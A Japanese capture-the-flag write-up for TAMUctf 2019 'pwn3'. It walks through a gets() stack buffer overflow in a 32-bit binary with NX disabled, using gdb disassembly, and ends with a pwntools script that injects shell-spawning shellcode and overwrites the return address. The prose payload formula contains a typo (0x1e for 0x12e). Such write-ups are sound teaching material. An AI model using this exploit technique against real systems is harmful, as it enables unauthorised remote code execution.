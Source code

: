 # pwn3
## Description 

実行ファイルが渡される
実行してみると
``` Take this, you might need it on your journey 0xffd1d53e! ```とある

## Solution
```
[*] '/home/mizuiro/PROJECTS/ctf/TAMUctf_19/pwn3/pwn3'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```
実行したときに現れるアドレスはバッファのアドレスだった 
```
0x565555c3 in echo ()
gdb-peda$ disas 
Dump of assembler code for function echo:
   0x5655559d <+0>:	push   ebp
   0x5655559e <+1>:	mov    ebp,esp
   0x565555a0 <+3>:	push   ebx
   0x565555a1 <+4>:	sub    esp,0x134
   0x565555a7 <+10>:	call   0x565554a0 <__x86.get_pc_thunk.bx>
   0x565555ac <+15>:	add    ebx,0x1a20
   0x565555b2 <+21>:	sub    esp,0x8
   0x565555b5 <+24>:	lea    eax,[ebp-0x12a]
   0x565555bb <+30>:	push   eax
   0x565555bc <+31>:	lea    eax,[ebx-0x191c]
   0x565555c2 <+37>:	push   eax
=> 0x565555c3 <+38>:	call   0x56555410 <printf@plt>
   0x565555c8 <+43>:	add    esp,0x10
   0x565555cb <+46>:	sub    esp,0xc
   0x565555ce <+49>:	lea    eax,[ebp-0x12a]
   0x565555d4 <+55>:	push   eax
   0x565555d5 <+56>:	call   0x56555420 <gets@plt>
   0x565555da <+61>:	add    esp,0x10
   0x565555dd <+64>:	nop
   0x565555de <+65>:	mov    ebx,DWORD PTR [ebp-0x4]
   0x565555e1 <+68>:	leave  
   0x565555e2 <+69>:	ret    
End of assembler dump.
```
gets()が使われているので、スタック内のリターンアドレスを上書き出来ることがわかる。
そこでbufferにshellcodeを送って、そこに対して戻るようにリターンアドレスを書き換える
bufferの位置がebp-0x12aなのでそこからsave ebpをまたいでリターンアドレスを書き込む。
payload = shellcode + 'x90' * (0x1e-len(shellcode) + return address
### 疑似コード
```
int main(int arg0) {
    __x86.get_pc_thunk.ax();
    sub_440();
    echo();
    return 0x0;
}
int echo() {
    __x86.get_pc_thunk.bx();
    sub_410(); // printf
    eax = sub_420(); 
    return eax;
}
```
### solve.py
```python:solve.py
from pwn import *

io = remote("localhost",4088)
io.recvuntil("journey")
addr = io.recvuntil("!").rstrip(b"!")
addr_shellcode = int(addr,16)
log.info("&shellcode={}".format(hex(addr_shellcode)))

shellcode = asm(shellcraft.sh())

payload = shellcode
payload += b'\x90' * (0x12e-len(shellcode))
payload += p32(addr_shellcode)

io.sendline(payload)
io.interactive()
```
